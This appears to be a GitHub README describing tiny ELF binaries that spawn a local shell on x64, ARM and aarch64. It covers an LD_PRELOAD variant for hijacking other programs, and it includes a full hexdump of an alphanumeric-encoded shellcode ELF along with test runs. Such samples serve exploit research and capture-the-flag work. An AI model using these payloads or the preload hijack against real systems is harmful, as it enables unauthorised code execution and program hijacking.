 # Tiny ELF sample

## pop_shell_x64

- arch: x64
- shellcode pos: 0x78
- size: 180 bytes

just pop a shell.

test:

```
./pop_shell_x64
$ whoami
veritas
$
```



## pop_shell_preload_x64.so

- arch: x64
- shellcode pos: 0x170
- size: 428 bytes

just pop a shell, but can be used to hijack program using LD_PRELOAD or dlopen.

test:

```
./pop_shell_preload_x64.so
$ whoami
veritas
$

LD_PRELOAD=./pop_shell_preload_x64.so /usr/bin/true
$ whoami
veritas
$
```



## pop_shell_alnum_x64

- arch: x64
- size: 323 bytes

just pop a shell, but shellcode is alphanumeric encoded by [AE64](https://github.com/veritas501/ae64).

```
$ hexdump -C pop_shell_alnum_x64
00000000  7f 45 4c 46 02 01 01 00  00 00 00 00 00 00 00 00  |.ELF............|
00000010  03 00 3e 00 01 00 00 00  28 00 00 00 00 00 00 00  |..>.....(.......|
00000020  40 00 00 00 00 00 00 00  e8 00 00 00 00 58 eb 48  |@............X.H|
00000030  00 00 00 00 40 00 38 00  01 00 40 00 00 00 01 00  |....@.8...@.....|
00000040  01 00 00 00 07 00 00 00  00 00 00 00 00 00 00 00  |................|
00000050  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
00000060  78 00 00 00 00 00 00 00  78 00 00 00 00 00 00 00  |x.......x.......|
00000070  00 10 00 00 00 00 00 00  57 54 59 48 33 39 59 6a  |........WTYH39Yj|
00000080  6f 54 59 66 69 39 70 59  57 5a 6a 4a 54 59 66 69  |oTYfi9pYWZjJTYfi|
00000090  39 70 30 30 74 38 30 30  54 38 55 30 54 38 56 6a  |9p00t800T8U0T8Vj|
000000a0  42 54 59 66 69 39 38 59  30 74 38 30 30 54 38 4b  |BTYfi98Y0t800T8K|
000000b0  48 63 31 6a 4b 54 59 66  69 31 56 55 4c 4a 74 30  |Hc1jKTYfi1VULJt0|
000000c0  59 6a 32 54 59 66 69 31  67 66 56 59 49 4a 34 4e  |Yj2TYfi1gfVYIJ4N|
000000d0  56 54 58 41 6b 76 32 31  42 32 74 31 31 41 30 76  |VTXAkv21B2t11A0v|
000000e0  31 49 6f 56 4c 39 30 75  7a 51 79 52 5a 45 45 6e  |1IoVL90uzQyRZEEn|
000000f0  64 65 65 35 64 46 52 4a  4f 41 4f 64 75 41 35 54  |dee5dFRJOAOduA5T|
00000100  59 6f 6b 54 52 63 31 30  73 69 6e 71 4a 4b 30 31  |YokTRc10sinqJK01|
00000110  41 41 4a 4c 56 36 56 31  45 73 6d 65 69 6c 62 30  |AAJLV6V1Esmeilb0|
00000120  37 6f 46 6a 73 5a 6b 66  4e 6f 35 7a 50 41 31 5a  |7oFjsZkfNo5zPA1Z|
00000130  30 6c 6a 48 69 4c 47 48  6e 34 4c 48 63 65 62 32  |0ljHiLGHn4LHceb2|
00000140  54 66 4c                                          |TfL|
00000143
```



test:

```
./pop_shell_alnum_x64
$ whoami
veritas
$
```

## pop_shell_arm

- arch: arm
- shellcode pos: 0x54
- size: 160 bytes

just pop a shell.

test:

```
qemu-arm ./pop_shell_arm
$ whoami
veritas
$
```

## pop_shell_aarch64

- arch: aarch64
- shellcode pos: 0x78
- size: 196 bytes

just pop a shell.

test:

```
qemu-aarch64 ./pop_shell_aarch64
$ whoami
veritas
$
```
